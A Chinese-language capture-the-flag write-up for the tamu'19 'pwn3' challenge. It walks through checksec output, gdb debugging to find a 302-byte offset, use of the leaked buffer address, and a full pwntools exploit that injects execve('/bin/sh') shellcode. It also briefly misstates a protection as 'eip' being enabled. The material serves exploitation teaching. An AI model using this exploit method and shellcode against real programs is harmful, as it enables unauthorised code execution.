



# 2.7 tamu'19: pwn3
查看文件安全机制

```cpp
[*] '/home/vuln/nightmare/modules/06-bof_shellcode/tamu19_pwn3/pwn3'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
开启了PIE和RELRO

运行程序并使用IDA反编译



查看echo函数



很明显的是一个缓冲区溢出漏洞，使用gdb进行调试

查看输入参数s到eip之间的字节数为多少

```cpp
gef➤  disassemble echo
Dump of assembler code for function echo:
   0x0000059d <+0>:     push   ebp
   0x0000059e <+1>:     mov    ebp,esp
   0x000005a0 <+3>:     push   ebx
   0x000005a1 <+4>:     sub    esp,0x134
   0x000005a7 <+10>:    call   0x4a0 <__x86.get_pc_thunk.bx>
   0x000005ac <+15>:    add    ebx,0x1a20
   0x000005b2 <+21>:    sub    esp,0x8
   0x000005b5 <+24>:    lea    eax,[ebp-0x12a]
   0x000005bb <+30>:    push   eax
   0x000005bc <+31>:    lea    eax,[ebx-0x191c]
   0x000005c2 <+37>:    push   eax
   0x000005c3 <+38>:    call   0x410 <printf@plt>
   0x000005c8 <+43>:    add    esp,0x10
   0x000005cb <+46>:    sub    esp,0xc
   0x000005ce <+49>:    lea    eax,[ebp-0x12a]
   0x000005d4 <+55>:    push   eax
   0x000005d5 <+56>:    call   0x420 <gets@plt>
   0x000005da <+61>:    add    esp,0x10
   0x000005dd <+64>:    nop
   0x000005de <+65>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x000005e1 <+68>:    leave
   0x000005e2 <+69>:    ret
End of assembler dump.
gef➤  b *echo+68
Breakpoint 1 at 0x5e1
```
下完断点，运行程序，输入10个a

```cpp
gef➤  r
Starting program: /home/vuln/nightmare/modules/06-bof_shellcode/tamu19_pwn3/pwn3
Take this, you might need it on your journey 0xbffff46e!
aaaaaaaaaa

Breakpoint 1, 0x004005e1 in echo ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xbffff46e  →  "aaaaaaaaaa"
$ebx   : 0x00401fcc  →  <_GLOBAL_OFFSET_TABLE_+0> aam 0x1e
$ecx   : 0xb7fcb5a0  →  0xfbad2288
$edx   : 0xb7fcc87c  →  0x00000000
$esp   : 0xbffff460  →  0xb7e186c0  →  0x00000000
$ebp   : 0xbffff598  →  0xbffff5a8  →  0x00000000
$esi   : 0xb7fcb000  →  0x001b1db0
$edi   : 0xb7fcb000  →  0x001b1db0
$eip   : 0x004005e1  →  <echo+68> leave
$eflags: [carry PARITY adjust zero SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0073 $ss: 0x007b $ds: 0x007b $es: 0x007b $fs: 0x0000 $gs: 0x0033
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xbffff460│+0x0000: 0xb7e186c0  →  0x00000000    ← $esp
0xbffff464│+0x0004: 0xb7e1f008  →  0x00004c66 ("fL"?)
0xbffff468│+0x0008: 0xb7fe3fc9  →  <do_lookup_x+9> add ebx, 0x1b037
0xbffff46c│+0x000c: 0x61610000
0xbffff470│+0x0010: "aaaaaaaa"
0xbffff474│+0x0014: "aaaa"
0xbffff478│+0x0018: 0xbffff500  →  0xb7fcbd60  →  0xfbad2887
0xbffff47c│+0x001c: 0xb7fe4b4b  →  <_dl_lookup_symbol_x+235> add esp, 0x30
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
     0x4005d9 <echo+60>        inc    DWORD PTR [ebx-0x746fef3c]
     0x4005df <echo+66>        pop    ebp
     0x4005e0 <echo+67>        cld
 →   0x4005e1 <echo+68>        leave
     0x4005e2 <echo+69>        ret
     0x4005e3 <main+0>         lea    ecx, [esp+0x4]
     0x4005e7 <main+4>         and    esp, 0xfffffff0
     0x4005ea <main+7>         push   DWORD PTR [ecx-0x4]
     0x4005ed <main+10>        push   ebp
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn3", stopped, reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4005e1 → echo()
[#1] 0x40061a → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```
接着在内存中搜索aaaaa

```cpp
gef➤  search-pattern aaaaaaaa
[+] Searching 'aaaaaaaa' in memory
[+] In '[heap]'(0x403000-0x424000), permission=rwx
  0x403008 - 0x403012  →   "aaaaaaaaaa"
[+] In '[stack]'(0xbffdf000-0xc0000000), permission=rwx
  0xbffff46e - 0xbffff478  →   "aaaaaaaaaa"
```
到这里我们得到变量s的地址为0xbffff46e，再查看eip的地址

```cpp
gef➤  i f
Stack level 0, frame at 0xbffff5a0:
 eip = 0x4005e1 in echo; saved eip = 0x40061a
 called by frame at 0xbffff5c0
 Arglist at 0xbffff598, args:
 Locals at 0xbffff598, Previous frame's sp is 0xbffff5a0
 Saved registers:
  ebx at 0xbffff594, ebp at 0xbffff598, eip at 0xbffff59c
```
得到0xbffff59c， 0xbffff59c - 0xbffff46e = 302

这里也可以使用IDA来查看



可以看到和ebp的距离为0x12A，而ebp上面则是eip，所以距离为0x12A + 0x4 = 302

因为程序开启了eip，所以每次地址都是随机的，我们需要找到一个泄露的地址，在ECHO函数中，输出了变量s的地址，所以我们可以使用这个地址构造payload

```python
shellcode + (302 - len(shellcode))*'\x90' + p32(echoAddr)
```
所以完整EXPLOIT如下：

```python
from pwn import *

target = process('./pwn3')

# Print out the text, up to the address of the start of our input
print target.recvuntil("journey ")

# Scan in the rest of the line
leak = target.recvline()

# Strip away the characters not part of our address
shellcodeAdr = int(leak.strip("!\n"), 16)

# Make the payload
payload = ""
# Our shellcode from: http://shell-storm.org/shellcode/files/shellcode-827.php
payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
# Pad the rest of the space to the return address with zeroes
payload += "0"*(0x12e - len(payload))
# Overwrite the return address with the leaked address which points to the start of our shellcode
payload += p32(shellcodeAdr)

# Send the payload
target.sendline(payload)

# Drop to an interactive shell to use our newly popped shell
target.interactive()
```